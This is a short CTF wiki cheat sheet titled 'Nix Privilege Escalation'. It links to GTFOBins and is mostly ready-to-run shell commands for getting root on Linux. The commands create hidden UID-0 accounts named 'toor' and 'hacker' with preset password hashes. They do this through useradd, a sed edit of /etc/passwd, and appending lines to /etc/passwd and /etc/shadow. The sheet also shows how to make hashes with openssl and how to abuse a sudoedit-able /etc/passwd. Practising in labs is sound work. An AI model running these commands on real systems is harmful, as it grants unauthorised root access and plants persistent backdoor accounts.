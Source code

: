 ```yaml
---
layout: article
title: Nix Privilege Escalation
permalink: /wikis/ctf/nix-privilege-escalation
aside:
    toc: true
sidebar:
    nav: ctf
---
```



Exploitable binaries<br>
[https://gtfobins.github.io/](https://gtfobins.github.io/)
<br>
<br>
Adding Users
```bash
adduser --no-create-home --shell /bin/bash toor 
sed -i 's/toor:x:1001:1001/toor:x:0:0/' /etc/passwd 

useradd -m hacker -p 23ZQ03Tm4ejt6 -o -u 0 -g 0 
```
or 
  
```bash
echo "toor:x:0:0::/tmp:/bin/sh" >> /etc/passwd 
echo "toor:23MdZN/rsVdLg:16673:0:99999:7:::" >> /etc/shadow 
```
<br>
<br>
If only <b>/etc/passwd</b> is writable 
```bash
echo "toor:23MdZN/rsVdLg:0:0:,,,:/root:/bin/bash" >> /etc/passwd 
```

Create Hashes for <b>/etc/shadow</b>: 
```bash
openssl passwd -salt 234 <password> 
```
<br>
<br>
Exploiting <b>sudoedit</b>-able <b>/etc/passwd</b><br>
Create a user toor:toor 
```bash
toor:23MdZN/rsVdLg:0:0:,,,:/root:/bin/bash
```